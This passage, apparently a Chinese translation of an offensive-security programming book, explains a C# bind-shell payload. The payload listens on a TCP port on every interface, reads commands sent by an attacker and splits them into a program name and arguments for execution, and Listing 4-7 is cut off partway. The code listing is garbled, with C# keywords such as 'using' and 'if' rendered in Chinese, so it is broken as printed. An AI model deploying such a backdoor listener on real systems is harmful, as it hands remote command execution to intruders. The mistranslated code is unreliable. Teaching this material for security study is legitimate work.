 在开始监听之前，我们使用 int.Parse() ➊将传递给有效载荷的参数转换为整数，这将是监听的端口。然后我们通过将 IPAddress.Any 作为第一个参数传递给构造函数，并将我们希望监听的端口作为第二个参数，来实例化一个新的 TcpListener 类 ➋。传递给第一个参数的 IPAddress.Any 值告诉 TcpListener 监听任何可用的接口（0.0.0.0）。

接下来，我们尝试在 try/catch 块中开始监听端口。我们这样做是因为调用 Start() ➌可能会抛出异常，例如，如果有效载荷不是以特权用户身份运行，并且它试图绑定到一个小于 1024 的端口号，或者它试图绑定到另一个程序已经绑定的端口。通过在 try/catch 块中运行 Start()，我们可以捕获此异常并在必要时优雅地退出。当然，如果 Start()成功，载荷将开始在该端口上监听新连接。

接受数据、运行命令并返回输出

现在我们可以开始接受来自攻击者的数据并解析命令，如清单 4-7 所示。

> ➊while (true)
> 
> {
> 
> 使用 (Socket socket = ➋listener.AcceptSocket())
> 
> {
> 
> 使用 (NetworkStream stream = new ➌NetworkStream(socket))
> 
> {
> 
> 使用 (StreamReader rdr = new ➍StreamReader(stream))
> 
> {
> 
> ➎while (true)
> 
> {
> 
> string cmd = rdr.ReadLine();
> 
> 如果 (string.IsNullOrEmpty(cmd))
> 
> {
> 
> rdr.Close();
> 
> stream.Close();
> 
> listener.Stop();
> 
> break;
> 
> }
> 
> 如果 (string.IsNullOrWhiteSpace(cmd))
> 
> continue;
> 
> string[] split = cmd.Trim().➏Split(' ');
> 
> string filename = split.➐First();
> 
> string arg = string.➑Join(" ", split.Skip(1)); Listing 4-7: 从网络流读取命令并将命令与参数分开
